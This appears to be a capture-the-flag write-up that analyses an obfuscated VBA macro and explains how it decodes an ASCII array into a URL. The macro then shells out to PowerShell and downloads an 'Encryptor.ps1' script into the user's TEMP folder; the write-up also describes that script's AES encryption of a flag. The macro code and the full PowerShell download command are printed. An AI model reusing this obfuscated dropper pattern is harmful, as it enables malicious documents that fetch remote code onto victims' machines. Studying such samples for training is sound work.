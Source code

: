 ```visual-basic
                                    110, 116, 101, 110, 116, 46, 99, 111, 109, 47, 105, 99, 101, _
                                    45, 97, 114, 105, 102, 112, 101, 121, 99, 97, 108, 47, 109, _
                                    97, 108, 105, 99, 105, 111, 117, 115, 45, 101, 110, 99, 114, _
                                    121, 112, 116, 47, 109, 97, 105, 110, 47, 69, 110, 99, 114, _
                                    121, 112, 116, 111, 114, 46, 112, 115, 49)

    Az5Qf9Bl6MvTp3XuWoJd1Sg = ""

    Dim LoopDummyZx8 As Integer
    For LoopDummyZx8 = 1 To 10
        Ps1Uq8Rs9DjWv4Lk = Ps1Uq8Rs9DjWv4Lk * LoopDummyZx8 - 1
    Next LoopDummyZx8

    For Jw4Hq7VxIoLbKp2DvQy7CzN = LBound(Gr9Rj5TsY3Np4KwL8Xr2Fh) To UBound(Gr9Rj5TsY3Np4KwL8Xr2Fh)
        Az5Qf9Bl6MvTp3XuWoJd1Sg = Az5Qf9Bl6MvTp3XuWoJd1Sg & Chr(Gr9Rj5TsY3Np4KwL8Xr2Fh(Jw4Hq7VxIoLbKp2DvQy7CzN))
    Next Jw4Hq7VxIoLbKp2DvQy7CzN

    Un7Pw9Gt8DhXzLfS3T5RvYn = Az5Qf9Bl6MvTp3XuWoJd1Sg
    
    Op9Fg3KlQ6Dp8V4LjPf7TxK = Environ("TEMP") & "\Encryptor.ps1"

    Xq2FqT8Yt7GqJr9HvL7FxTs = Left(Vp5Zl9Ds1MvJr8Tk, 5) & "-" & Right(Vp5Zl9Ds1MvJr8Tk, 3)
    
    Xq2FqT8Yt7GqJr9HvL7FxTs = "powershell.exe -Command ""Invoke-WebRequest -Uri '" & Un7Pw9Gt8DhXzLfS3T5RvYn & "' -OutFile '" & Op9Fg3KlQ6Dp8V4LjPf7TxK & "'"""

    Shell Xq2FqT8Yt7GqJr9HvL7FxTs, vbNormalFocus
    
End Sub
```

TLDR:

1. `Gr9Rj5TsY3Np4KwL8Xr2Fh` is an array of ASCII values that, when converted to characters, form a URL. 
2. It will download `Encryptor.ps1` from 

https://raw.githubusercontent.com/ice-arifpeycal/malicious-encrypt/main/Encryptor.ps1   and put it in Temp directory.

1. Final PowerShell command looks like this:

```powershell
powershell.exe -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/ice-arifpeycal/malicious-encrypt/main/Encryptor.ps1' -OutFile 'C:\Users\[UserName]\AppData\Local\Temp\Encryptor.ps1'"
```

The GitHub link will bring you to Encryptor.ps1. The script does several operations: 

1. Performs an XOR operation on two strings, combining them to generate a cryptographic key.
2. This key is then used in an AES encryption process, where the flag is encrypted using the key and an initialization vector (IV). 
3. Convert into base64 string. 
4. Shuffling the characters of the base64 result, making the output more difficult to interpret. 
5. Finally, the shuffled encrypted string is saved to a file, storing the transformed data in a file named "`flag1.txt.enc`". 
